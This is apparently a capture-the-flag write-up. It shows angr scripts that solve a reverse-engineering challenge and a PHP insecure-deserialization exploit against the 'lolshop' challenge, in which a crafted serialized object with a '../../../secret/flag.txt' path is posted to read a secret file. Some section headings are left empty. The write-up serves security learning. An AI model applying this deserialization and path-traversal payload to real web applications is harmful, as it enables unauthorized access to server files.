

## backtoshell
## keycheck_baby
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with Ghidra, and with a simple Python script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

First script (classic angr):
```python
import angr
import claripy

FLAG_LEN = 31
STDIN_FD = 0

base_addr = 0x100000 # To match addresses to Ghidra , main_opts={'base_addr': base_addr}

proj = angr.Project("./keycheck_baby", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./keycheck_baby'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable

for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))


simgr = proj.factory.simulation_manager(state)
find_addr  = 0x1013f8 # SUCCESS 101471 10136a 1013f8
avoid_addr = 0x101487 # FAILURE 102058 101487 
simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```

Second script (super cool):
```python
import claripy
import angr

p=angr.Project('./keycheck_baby')

simfile = angr.SimPackets('input')

st = p.factory.entry_state(stdin=simfile);
sm = p.factory.simulation_manager(st)
sm.explore(find=lambda s: b"Your input looks" in s.posix.dumps(1))
for s in sm.found:
    print(s.posix.dumps(0))
```
## lolshop
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in /secret/flag.txt file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in State.php called restore($token).

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in Products.php.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the toDict() function of a product
2. we search for every call the restore() method in the source code
3. after finding the right restore() call, we try to craft a malicius payload

We can notice that in the cart.php page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the restore(), then we call the toDict() on the unserialized state: COOL

What if we try to unserialize a Product object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the $state->toDict() instruction will be executed, but now the method refers to Product.toDict(), so the getPicture() will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:



We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**

## positiveleak
